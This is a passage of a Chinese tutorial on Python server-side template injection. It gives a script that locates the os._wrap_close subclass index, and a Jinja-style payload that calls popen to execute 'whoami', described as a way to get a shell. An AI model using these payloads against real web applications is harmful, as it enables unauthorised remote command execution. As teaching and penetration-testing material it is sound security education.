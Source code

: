 然后把子类列表放进下面脚本中的 a 中，然后寻找`os._wrap_close`这个类

`find2.py`

```
import json

a = """
<class 'type'>,...,<class 'subprocess.Popen'>
"""

num = 0
allList = []

result = ""
for i in a:
    if i == ">":
        result += i
        allList.append(result)
        result = ""
    elif i == "\n" or i == ",":
        continue
    else:
        result += i
        
for k,v in enumerate(allList):
    if "os._wrap_close" in v:
        print(str(k)+"--->"+v)
```

![](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LfP3o9TibDf1JBXWRqr32SuHTYZ0T3v6aK0cVFnGBmGeKGofd94juXEZR9ygLOKsYU3Z9F7jLVWIicw/640?wx_fmt=png)

  

又或者用如下的`requests`脚本去跑

`find3.py`

![](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LfP3o9TibDf1JBXWRqr32SuHa2IiaNAvFWOiaAQwjG4PHcpzIwK7SmydWQdXvQnbxKAgzsoibLYQvKrag/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LfP3o9TibDf1JBXWRqr32SuHWGial2tsIgMxPHiaWRAwOJXoOB0HxNxlkAERhNjQgZt8rxXO7zRhjaNA/640?wx_fmt=png)

tips：后面的各种方法都是利用这种思路寻找到可以 getshell 类的位置

### python3 的方法

*   `os._wrap_close`类中的`popen`
    

在上面的例子中就是用的这个方法，payload 如下

```
{{"".__class__.__bases__[0].__subclasses__()[128].__init__.__globals__['popen']('whoami').read()}}
```

*   `__import__`中的`os`
    